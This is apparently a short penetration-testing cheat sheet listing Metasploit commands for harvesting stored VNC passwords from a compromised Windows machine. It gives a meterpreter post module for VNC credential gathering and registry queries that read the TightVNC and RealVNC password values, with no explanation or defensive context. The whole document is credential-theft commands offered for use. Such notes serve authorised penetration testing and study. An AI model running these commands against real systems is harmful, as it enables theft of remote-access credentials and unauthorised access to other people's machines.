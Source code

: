 # Metasploit

## 01 - Post Module

```
meterpreter > run post/windows/gather/credentials/vnc
```

## 02 - Meterpreter Command

### 2.1 - TightVNC

```
meterpreter > reg [-r <target_IP>] queryval -k HKCU\Software\TightVNC\Server -v password [-w <64>]
```

### 2.2 - RealVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\\Software\ORL\\WinVNC3\\Password [-w <64>]

meterpreter > reg [-r <target_IP>] queryval -k HKLM\SOFTWARE\RealVNC\WinVNC4 -v password [-w <64>]
```